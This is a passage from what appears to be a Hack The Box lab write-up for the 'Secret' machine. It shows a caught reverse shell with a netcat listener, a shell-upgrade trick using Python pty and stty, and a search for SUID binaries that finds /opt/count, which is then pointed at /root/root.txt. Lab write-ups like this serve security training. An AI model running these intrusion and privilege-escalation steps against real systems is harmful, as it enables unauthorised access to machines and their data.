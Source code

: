 And then we see our shell is connected:

```sh
──(root💀kali)-[~/htb/secret]
└─# nc -lvvp 1337
listening on [any] 1337 ...
connect to [10.10.15.15] from secret.htb [10.10.11.120] 51496
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

First let's get a better shell:

```sh
dasith@secret:~/local-web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -lvvp 1337
┌──(root💀kali)-[~/htb/secret]
└─# stty raw -echo; fg
[1]  + continued  nc -lvvp 1337
dasith@secret:~/local-web$
```

## Enumeration

With that sorted I had a look around, eventually finding a file called count that has the sticky bit set:

```text
dasith@secret:~/local-web$ find / -type f -perm -u=s 2>/dev/null
<SNIP>
/opt/count
```

We can assume that is significant. If we look in the /opt folder we also find the source code for the count file:

```text
dasith@secret:/opt$ ls -l
-rw-r--r-- 1 root root  3736 Oct  7 10:01 code.c
-rwsr-xr-x 1 root root 17824 Oct  7 10:03 count
-rw-r--r-- 1 root root  4622 Oct  7 10:04 valgrind.log

dasith@secret:~/local-web$ file /opt/count
/opt/count: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=615b7e12374cd1932161a6a9d9a737a63c7be09a, for GNU/Linux 3.2.0, not stripped
```

Let's see what this file does:

```sh
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: y
Path: /tmp/output.txt
```
